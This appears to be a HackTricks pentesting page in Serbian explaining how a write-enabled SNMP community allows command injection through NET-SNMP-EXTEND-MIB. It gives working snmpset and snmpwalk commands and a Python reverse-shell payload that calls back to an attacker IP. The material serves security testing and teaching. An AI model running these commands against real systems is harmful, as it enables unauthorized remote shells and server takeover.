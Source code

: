 # SNMP RCE

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## SNMP RCE

SNMP može biti iskorišćen od strane napadača ako administrator previdi njegovu podrazumevanu konfiguraciju na uređaju ili serveru. Zloupotrebom SNMP zajednice sa dozvolama za pisanje (rwcommunity) na Linux operativnom sistemu, napadač može izvršiti komande na serveru.

### Proširivanje usluga sa dodatnim komandama

Da biste proširili SNMP usluge i dodali dodatne komande, moguće je dodati nove redove u "nsExtendObjects" tabelu. To se može postići korišćenjem `snmpset` komande i pružanjem neophodnih parametara, uključujući apsolutnu putanju do izvršnog fajla i komandu koja će biti izvršena:

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = /bin/echo \
'nsExtendArgs."evilcommand"' = 'hello world'
```

### Ubacivanje komandi za izvršavanje

Ubacivanje komandi za izvršavanje na SNMP servisu zahteva postojanje i izvršivost pozvanog binarnog/skriptnog fajla. **`NET-SNMP-EXTEND-MIB`** zahteva pružanje apsolutne putanje do izvršnog fajla.

Da bi se potvrdilo izvršavanje ubačene komande, može se koristiti `snmpwalk` komanda za enumeraciju SNMP servisa. **Izlaz će prikazati komandu i njene povezane detalje**, uključujući apsolutnu putanju:

```bash
snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
```

### Pokretanje ubačenih komandi

Kada se **ubačena komanda pročita, izvršava se**. Ovo ponašanje je poznato kao **`run-on-read()`**. Izvršenje komande može se posmatrati tokom čitanja snmpwalk.

#### Dobijanje server ljuske pomoću SNMP-a

Da biste preuzeli kontrolu nad serverom i dobili server ljusku, može se koristiti Python skripta koju je razvio mxrch sa adrese [**https://github.com/mxrch/snmp-shell.git**](https://github.com/mxrch/snmp-shell.git).

Alternativno, može se ručno kreirati reverzna ljuska ubacivanjem određene komande u SNMP. Ova komanda, pokrenuta snmpwalk-om, uspostavlja reverznu vezu ljuske sa napadačevim računarom, omogućavajući kontrolu nad žrtvinim računarom. Možete instalirati prethodne uslove za pokretanje ovoga:

```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

Ili obrnuti shell:

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```

### Reference

* [https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/](https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

